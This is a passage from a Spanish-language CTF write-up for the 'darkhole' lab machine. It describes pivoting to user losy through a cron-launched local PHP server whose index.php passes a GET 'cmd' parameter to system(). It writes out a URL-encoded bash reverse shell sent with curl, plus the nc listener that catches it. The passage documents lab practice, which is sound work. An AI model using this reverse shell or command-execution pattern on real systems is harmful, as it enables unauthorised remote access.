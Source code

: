 ## Pivoting de usuario

---

Listando los procesos del sistema, notamos una tarea `CRON`{: .filepath} lanzada por el usuario root, la cual levanta un servidor web php bajo el usuario **losy**.

```bash
root         849  0.0  0.2   6812  2332 ?        Ss   16:25   0:00 /usr/sbin/cron -f
root        1361  0.0  0.3   8476  3060 ?        S    16:26   0:00  \_ /usr/sbin/CRON -f
losy        1368  0.0  0.0   2608   560 ?        Ss   16:26   0:00      \_ /bin/sh -c  cd /opt/web && php -S localhost:9999
losy        1372  0.0  1.6 193672 16192 ?        S    16:26   0:00          \_ php -S localhost:9999
```

Dicho puerto **9999** no salió reflejado en nmap, esto es debido a que corre internamente.

```bash
jehad@darkhole:/opt/web$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:9999          0.0.0.0:*               LISTEN
```

Tenemos permisos de lectura sobre `/opt/web`, procedemos a ver el código del archivo `index.php`.

```bash
jehad@darkhole:/opt/web$ cat index.php
<?php
echo "Parameter GET['cmd']";
if(isset($_GET['cmd'])){
echo system($_GET['cmd']);
}
?>
```

Interpretando el código, significa que se va a ejecutar el valor que pongamos en el parámetro `cmd`, con lo cual podríamos enviarnos una reverse shell bajo el usuario `losy`.

<kbd>Máquina víctima</kbd>

Tenemos que URL encodear la consulta.

```bash
jehad@darkhole:/opt/web$ curl "http://localhost:9999/?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.11.12.10/9898+0>%261'
```

<kbd>Nuestro equipo atancante</kbd>

Nos ponemos en escucha y recibimos la conexión.

```bash
❯ rlwrap nc -nlvp 9898
listening on [any] 9898 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.12] 57838
bash: cannot set terminal process group (1368): Inappropriate ioctl for device
bash: no job control in this shell
losy@darkhole:/opt/web$ whoami
whoami
losy
```
